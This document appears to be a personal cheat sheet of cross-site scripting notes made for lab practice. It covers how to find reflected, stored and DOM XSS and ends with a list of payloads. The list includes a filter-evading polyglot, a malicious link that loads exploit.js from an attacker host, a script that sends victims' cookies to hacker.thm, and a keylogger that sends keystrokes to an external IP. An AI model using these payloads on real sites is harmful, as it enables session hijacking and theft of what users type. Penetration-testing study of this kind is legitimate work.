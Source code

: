 #### Methodology
##### XSS methodology:
```
Find where input gets reflected
Check for XSS types
Escape HTML/JS (use polyglot)
Use payloads
```

##### Reflected XSS
Look for:
```cpp
Parameters in URL query: http://vulnerable.thm/forum?popup=<script>alert('XSS');</script>
URL file path: ?
```
Exploitation:
Create malicious link: `http://vulnerable.thm/forum?popup=<script src=attacker.htb/exploit.js>`

##### Stored XSS
Look for:
```cpp
Unsanitized comment: payload in fields
Websile listings: payload in fields
```
Note: Attempt at uncommon places (age input with a dropdown for an integer etc)
Exploitation: 
Create hidden JS, send malicous link

##### DOM XSS
Look for accessible variables in the JS code
Check if variables are passed to unsafe methods such as `eval()`


##### Payloads
To bypass `alert` blocks, use `prompt` or `confirm`
```C++
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
// Polyglot, escapes a lot.

<script>alert('XSS');</script> // Proof of concept, sometimes blocked
"><script>alert('XSS');</script> // Escape HTML
</script><script>alert('XSS');</script> // Escape javascript functions

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script> // Steal cookies such as PHPSESSID in base64, sent to hacker.thm 
<script>document.onkeypress = function(e) { fetch('https://10.8.1.167/log?key=' + btoa(e.key) );}</script> // Log keys, keys sent to hacker.thm

```